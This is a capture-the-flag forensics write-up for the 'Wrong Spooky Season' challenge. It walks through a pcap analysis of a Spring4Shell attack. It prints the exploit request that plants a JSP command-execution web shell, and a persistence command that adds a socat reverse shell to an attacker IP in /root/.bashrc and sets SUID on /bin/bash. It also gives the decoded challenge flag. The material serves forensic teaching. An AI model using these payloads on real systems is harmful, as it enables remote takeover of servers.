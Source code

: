 # Wrong Spooky Season



> “I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong.” Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.

> Difficulty: Easy

{% file src="../../.gitbook/assets/forensics_wrong_spooky_season.zip" %}

Let's check file

```shell
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ file forensics_wrong_spooky_season.zip 
forensics_wrong_spooky_season.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ unzip forensics_wrong_spooky_season.zip 
Archive:  forensics_wrong_spooky_season.zip
  inflating: capture.pcap            
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/HackTheBoo/Wrong-Spooky-Season]
└─$ file capture.pcap                     
capture.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
```

We have <mark style="color:yellow;">pcap</mark> file!

Use <mark style="color:red;">Wireshark</mark> open it.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

We have a lot of TCP and HTTP protocol. Let's check it

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Filter <mark style="color:blue;">HTTP</mark>, We can see <mark style="color:orange;">**ip.src = 192.168.1.180**</mark> <mark style="color:orange;"></mark><mark style="color:orange;"></mark> (Attacker) sent a POST request&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Follow TCP stream we can see the URLencoded:

{% code overflow="wrap" %}
```java
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
{% endcode %}

Use CyberChef decode this

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```java
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{prefix}i java.io.InputStream in = %{c}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=e4d1c32a56ca15b3&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
{% endcode %}

Check google I know it is a Spring4Shell

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

&#x20;In this packet, Hacker is installing <mark style="color:red;">socat</mark> in the victim system and use reverse shell

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```basic
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
```
{% endcode %}

In this we can see base64 encode so suspicious, check it

```python
import base64
a = "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS"[::-1]
print(base64.b64decode(a))
```

We got flag:&#x20;

{% hint style="info" %}
HTB{j4v4\_5pr1ng\_just\_b3c4m3\_j4v4\_sp00ky!!}
{% endhint %}
